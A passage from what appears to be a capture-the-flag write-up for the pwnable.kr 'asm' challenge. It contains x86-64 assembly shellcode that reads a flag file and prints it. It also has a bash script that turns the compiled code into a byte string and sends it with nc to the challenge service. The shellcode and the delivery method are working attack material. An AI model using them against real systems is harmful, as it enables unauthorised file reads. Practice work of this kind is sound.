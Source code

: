 ```asm
  syscall

  jmp exit

read: 

  #make space on the stack for the flag
  # we only need 67 bytes, but lets align it to 8 bytes
  sub $72, %rsp

  #read the flag
  mov %rax, %rdi # arg fg
  lea (%rsp), %rsi 
  mov $67, %rdx
  xor %rax, %rax # syscall read
  syscall

key:
  lea (%rsp), %rsi # arg: char*
  mov $67, %dl # arg: len
  mov $1, %rdi # arg: fd stdout 
  mov $1, %rax # system call number: write
  syscall


exit:
  xor %rdi, %rdi # exit code 0
  mov $60, %rax # system call exit
  syscall 


ender:
  call setup
  .asciz
"this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
  .byte 0x0 #put this zero here to null terminate the string. asciz should also null terminate, but it wasn't working properly on the server 

```

And here is a helper script to run on the server:

```bash
#!/usr/bin/env bash

as -o shell.o shell.asm && ld -o shell shell.o

  MUFN=`for i in $(objdump -d shell -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

dir=`pwd`
cd

echo 'Now in ' `pwd`

python -c "import sys; sys.stdout.write('$MUFN')" | ./asm
echo
cd $dir

echo 'Now in ' `pwd`
echo "Trying for the real key"

python -c "import sys; sys.stdout.write('$MUFN')" | nc 0 9026
```